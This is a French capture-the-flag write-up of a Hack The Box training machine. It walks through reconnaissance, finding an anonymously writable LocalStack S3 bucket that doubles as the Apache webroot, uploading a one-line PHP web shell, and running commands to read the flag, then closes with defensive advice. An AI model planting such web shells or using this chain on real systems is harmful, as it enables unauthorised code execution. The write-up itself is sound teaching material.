



> Plateforme : **Hack The Box** — Starting Point (Tier 1)

## Informations

- **Catégorie :** Web / Cloud (AWS S3)
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Services :** `22/tcp` (SSH), `80/tcp` (Apache httpd 2.4.29)
- **Flag :** `a980d99281a28d638ac68b9bf9453c2b`

---

## 1. Reconnaissance

```bash
nmap -p- -sC -sV -T4 10.129.2.212
```

```text
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.29 (titre: The Toppers)
```



Le site est un one-page d'un groupe de musique. Dans le code HTML, la section contact révèle un domaine : `mail@thetoppers.htb`. On ajoute le vhost dans `/etc/hosts` :

```text
10.129.2.212  thetoppers.htb s3.thetoppers.htb
```

---

## 2. Un sous-domaine S3 (LocalStack)

L'énoncé indique d'attendre `{"status":"running"}` sur `s3.thetoppers.htb`. On confirme :

```bash
curl http://s3.thetoppers.htb
```

```text
{"status": "running"}
```



En-têtes `x-amz-*`, `Server: hypercorn-h11` → c'est un **endpoint S3 émulé (LocalStack)**. On 
configure l'AWS CLI avec des credentials bidon (LocalStack ne vérifie rien) :

```bash
aws configure      # Access Key: temp / Secret: temp / region vide
```

---

## 3. Bucket inscriptible = le webroot

On liste le bucket du site :

```bash
aws s3 ls --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb --recursive
```

```text
          0 .htaccess
      11952 index.php
      90172 images/band.jpg
      ...
```

Le bucket contient **`index.php`** et les images du site → **Apache sert directement le contenu de ce bucket comme racine web** (`thetoppers.htb`). Et l'accès S3 autorise l'**écriture** anonyme. La combinaison est fatale.



---

## 4. Upload d'un webshell → RCE

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
aws s3 cp --endpoint-url http://s3.thetoppers.htb shell.php s3://thetoppers.htb/shell.php
```

Le fichier déposé dans le bucket devient accessible sur le **vhost Apache** (et non sur l'endpoint S3) :

```bash
curl "http://thetoppers.htb/shell.php?cmd=id"
```

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> Piège : accéder au shell via `s3.thetoppers.htb/shell.php` renvoie `NoSuchBucket` — l'endpoint S3 interprète `/shell.php` comme un nom de bucket. Il faut l'exécuter via **`thetoppers.htb`** (le serveur web qui interprète le PHP).

---

## 5. Flag

```bash
curl "http://thetoppers.htb/shell.php?cmd=cat+/var/www/flag.txt"
```

```text
a980d99281a28d638ac68b9bf9453c2b
```

**Flag :** `a980d99281a28d638ac68b9bf9453c2b`

---

## Récapitulatif

1. **nmap** + code source → vhost `thetoppers.htb`, sous-domaine `s3.thetoppers.htb`.
2. `s3.thetoppers.htb` → endpoint S3 émulé (LocalStack), auth non vérifiée.
3. `aws s3 ls` → le bucket `thetoppers.htb` **est** le webroot Apache (contient `index.php`).
4. `aws s3 cp` → upload d'un `shell.php` dans le bucket (**écriture anonyme**).
5. `curl thetoppers.htb/shell.php?cmd=id` → **RCE** en `www-data` → flag.

> **Concept clé :** un bucket S3 accessible ne donne pas une RCE à lui seul — il faut **deux conditions réunies**. (1) Un **accès en écriture** (ici anonyme, car LocalStack ne valide pas les credentials) : en lecture seule, on ne ferait qu'exfiltrer. (2) Le bucket servi comme **racine d'un serveur web qui exécute le code** : Apache rend `thetoppers.htb` à partir du bucket, donc un `.php` uploadé y est interprété. Write + exécution web = exécution de code. La défense : credentials réellement vérifiés, bucket en lecture seule pour l'anonyme, et surtout ne jamais faire d'un store d'objets le DocumentRoot d'un serveur qui interprète les scripts.

---

***— 3ch0***
